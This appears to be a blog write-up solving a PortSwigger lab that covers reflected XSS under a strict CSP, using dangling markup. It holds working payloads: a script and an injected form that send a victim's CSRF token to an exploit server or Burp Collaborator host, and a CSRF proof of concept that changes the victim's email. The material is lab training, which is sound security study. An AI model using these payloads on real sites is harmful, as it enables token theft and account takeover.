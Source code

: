 ```yaml
---
title: Reflected XSS protected by very strict CSP, with dangling markup attack
date: 2023-11-25 00:34:00 +0800
categories: [Web, XSS]
tags: [Web, Portswigger]
---
```

Today is nearly two years since the first Portswigger Web Security was solved, I solved the last one. In this blog post, I'll share how I solve it.

## Description of the Lab

- Lab Level: Expert

This lab uses a strict [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) that blocks outgoing requests to external websites.

To solve the lab, first, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the CSP and exfiltrates a simulated victim user's [CSRF](https://portswigger.net/web-security/csrf) token using Burp Collaborator. You must change the simulated user's email address to `hacker@evil-user.net`.

It would be best if you labeled your vector with the word "Click" in order to induce the simulated user to click it. For example:

`<a href="">Click me</a>`

You can log in to your own account using the following credentials: `wiener:peter`

The lab has CSP `Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';` which make it harder to be exploited because it prevents all the access to our domains although you can inject HTML tags like `img` or `table`  

The vulnerable parameter is `email` in endpoint `/my-account/change-email` and the XSS payload is being reflected in the `/my-account`

## First Solution 

Portswigger's official solution is to use a payload to exploit dangling markup attack by sending `base` tag with attribute `target='` ending in the single quote which will make the rest of the page being sent to the exploit server or Burp collaborator client abusing the same `email` parameter with link `a` tag as following:

```javascript
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email="><a href="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit">Click me</a><base target='';
}
</script>
```

![](/assets/img/uploads/ln1.png)

If it sends successfully the name of the DOM `window` name will be changed to obtain the CSRF token then send it to the victim to change it's email address.  

![](/assets/img/uploads/ln2.png)

Unfortunately, this exploit doesn't work anymore on Google Chrome, By only working in Firefox we can't solve the lab because the victim is only using Chrome client.

## Contacting Portswigger Team 

I was wondering why this behavior is like this I read on a thread on [their website](https://forum.portswigger.net/thread/lab-reflected-xss-protected-by-csp-with-dangling-markup-attack-288ada8e) of a user complaining of such problem but in 2022 of an update on Google Chrome make the lab unsolvable. So, I asked them about it and indeed it was this and they replied that there is a competition to see if any other users can also figure this out on [X](https://twitter.com/portswiggerres/status/1726605124443750893?s=46) I notice that no one reply on it in the last 4 days then I take it a personal challenge to solve it.

## The Problem 

The real problem I'm facing is to make the application callback to the exploits server. I tried many 

## The Solution
 
The exploit scenario in my mind: 
- Determine how to make the application call the exploit server.
- Craft exploits to exfiltrate the CSRF token on me then the victim.
- Craft a POC to change the email of the email address of the victim after getting its CSRF token. 

After trying many things I came thought a writeup called [Postcards from the post-XSS world (2011)](https://lcamtuf.coredump.cx/postxss/) indeed it was old but I really was determined to solve it. In a section the witter talks about how you can inject a `form` tag so the parser will ignore the first one and use the one that I craft to get the CSRF token and start with: 

```javascript 
"></form><form%20class="login-form"%20name="evil-form"%20action="https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log"%20method="POST">
```

After some tries and playing with HTML, I know all the factors and how it is supposed to work and it finally did!

![](/assets/img/uploads/20231125122402.png)

```javascript
%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log%22%20method=%22GET%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3E%20Click%20me%20%3C/button%3E
```

![](/assets/img/uploads/20231125122458.png)

Put it in the exploit server:

```
<script>
location='https://0a3a006c041ba288822ff20900fa00c8.web-security-academy.net/my-account?email=%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log%22%20method=%22GET%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3E%20Click%20me%20%3C/button%3E';
</script>
```

I delivered the exploit to the victim and got the CSRF token:

![](/assets/img/uploads/20231125113705.png)

Then go to the `/my-account/change-email` and make a POC using BurpSuite:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3a006c041ba288822ff20900fa00c8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="Qqk80OwNNtB2cMUyIanl6OfjlXbydxgf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Finally, the lab is solved!

![](/assets/img/uploads/solved.png)

And officially I solved all the Portswigger labs and ranked 59th on their Hall of fame

![](/assets/img/uploads/20231125124325.png)

